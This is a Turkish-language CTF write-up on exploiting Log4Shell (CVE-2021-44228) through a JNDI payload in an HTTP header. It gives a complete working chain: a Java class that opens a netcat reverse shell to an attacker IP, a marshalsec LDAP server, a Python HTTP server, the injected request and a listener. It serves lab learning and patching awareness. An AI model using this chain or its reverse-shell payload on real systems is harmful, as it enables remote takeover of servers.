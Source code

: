 
**Zafiyetin Tanımı ve Kategorisi**

CTF'de istismar edilen zafiyetin adı **Log4Shell** olup, **CVE-2021-44228** kodu ile tanımlanmıştır. Bu zafiyetin kategorisi **Uzak Kod Çalıştırma (RCE)**'dır. Zafiyet, uygulamanın girdi verilerini loglarken **Log4j kütüphanesini kullanması**, **JNDI (Java Naming and Directory Interface) üzerinden uzak LDAP sunucularına bağlantı sağlanabilmesi** ve bu LDAP sunucularının hedef sistemde kod yürütülmesine yol açacak öğeleri sunabilmesi durumlarında ortaya çıkmaktadır. Özellikle HTTP header bilgileri (örneğin, `X-Api-Version`) üzerinden bu zafiyet tetiklenebilmektedir.

**Saldırı Aşamaları**

CTF senaryosunda gerçekleştirilen saldırı aşağıdaki aşamaları içermektedir:

1. **Endpoint Keşfi:** `ffuf` aracı kullanılarak hedef uygulamadaki `/api` ve `/systeminfo` endpoint'leri tespit edilmiştir. `/systeminfo` endpoint'i sistem hakkında bilgi verirken, `/api` endpoint'inin `X-Api-Version` header'ına duyarlı olduğu belirlenmiştir.
2. **Log4j Versiyonunun Tespiti:** Hedef sistemde **Log4j 2.6.1** sürümünün kullanıldığı tespit edilmiştir. Bu sürümün JNDI Injection zafiyetine karşı savunmasız olduğu belirlenmiştir.
3. **Exploit Sınıfının Hazırlanması:** `Exploit.java` adlı bir Java sınıfı hazırlanmıştır. Bu sınıf, çalıştırıldığında hedef sistemde bir reverse shell bağlantısı kurmayı amaçlamaktadır. Sınıfın içeriği aşağıdaki gibidir:
    
    ```
    import java.io.IOException;
    public class Exploit {
        static {
            try {
                String[] cmd = { "/bin/sh", "-c", "nc 192.168.144.1 6000 -e /bin/sh" };
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
    ```
    
    Bu sınıf `javac` komutu ile derlenerek `Exploit.class` dosyası oluşturulmuştur. Kaynaklardan birinde, Docker ortamında `bash` yerine `sh` komutunun çalıştığına dair bir not bulunmaktadır.
4. **HTTP Sunucusu Kurulumu:** Oluşturulan `Exploit.class` dosyasını sunmak için Python'un basit HTTP sunucusu kullanılmıştır:
    
    ```
    python -m http.server 9999
    ```
    
    Farklı kaynaklarda farklı port numaraları (9999 ve 1112) kullanıldığı görülmektedir.
5. **LDAP Sunucusu Kurulumu (Marshalsec):** Hedef sisteme zararlı kodu enjekte etmek için `marshalsec` aracı kullanılarak bir LDAP sunucusu kurulmuştur. LDAP sunucusu, hedef sistemden bir istek geldiğinde, HTTP sunucusundan `Exploit.class` dosyasını indirip çalıştırmak üzere yapılandırılmıştır. Komut örneği şöyledir:
    
    ```
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.245.59:9999/#Exploit"
    ```
    
    Farklı kaynaklarda sunucu IP adresleri ve `marshalsec` versiyonu farklılık gösterebilir. LDAP sunucusu genellikle 1389 portunda çalışmaya başlar.
6. **Payload Gönderimi:** `Postman` gibi bir araç kullanılarak hedef sisteme özel bir HTTP isteği gönderilmiştir. `X-Api-Version` header'ına Log4Shell zafiyetini tetikleyecek JNDI payload'u yerleştirilmiştir:
    
    ```
    GET /api HTTP/1.1
    Host: localhost:8080
    X-Api-Version: ${jndi:ldap://192.168.245.57:1389/Exploit}
    ```
    
    Bu istek, hedef sistemin belirtilen LDAP sunucusuna bağlanmasını sağlamıştır.
7. **Reverse Shell Dinleme:** Saldırgan makinede `netcat` (nc) aracı ile 6000 portunda bir dinleyici başlatılmıştır:
    
    ```
    nc -lvp 6000
    ```
    
    Başarılı bir saldırı sonucunda, hedef sistemden gelen bağlantı kabul edilmiş ve saldırgan sistem üzerinde bir shell erişimi elde etmiştir. Bu sayede hedef sistemde komut çalıştırma ve sistem kontrolü mümkün hale gelmiştir.

**Kullanılan Araçlar ve Komutlar**

Saldırı sırasında kullanılan temel araçlar ve komutlar şunlardır:

- `ffuf`: Endpoint fuzzing için kullanılmıştır.
- `marshalsec`: Kötü niyetli LDAP sunucusu kurmak için kullanılmıştır.
- `python3 -m http.server`: `Exploit.class` dosyasını paylaşmak için basit bir HTTP sunucusu başlatmak için kullanılmıştır.
- `javac`: Java exploit kodunu derlemek için kullanılmıştır.
- `netcat (nc)`: Hedef sistemden gelen reverse shell bağlantısını dinlemek için kullanılmıştır.
- `Postman`: HTTP isteklerini manuel olarak tetiklemek için kullanılmıştır.
- `git`, `mvn`: `marshalsec` aracını kurmak ve derlemek için kullanılan komutlardır.

**Sonuç**

Bu CTF senaryosu, **Log4Shell (CVE-2021-44228)** zafiyetinin gerçek dünya benzeri bir ortamda nasıl istismar edilebileceğini göstermektedir. Zafiyetli bir Log4j sürümünün, kötü niyetli LDAP ve HTTP sunucularıyla birlikte kullanılmasıyla, hedef sistem üzerinde tam yetkili uzaktan kod çalıştırma (reverse shell) erişimi elde edilebilmiştir. Bu durum, yazılım geliştirme süreçlerinde kullanılan kütüphanelerin güvenlik açıklarına karşı ne kadar dikkatli olunması gerektiğini ve güvenlik güncellemelerinin zamanında yapılmasının önemini vurgulamaktadır. Bir kaynakta, bu tür bir laboratuvarı Windows üzerinde çözerken virüs korumasının kapatılması gerekebileceği belirtilmektedir.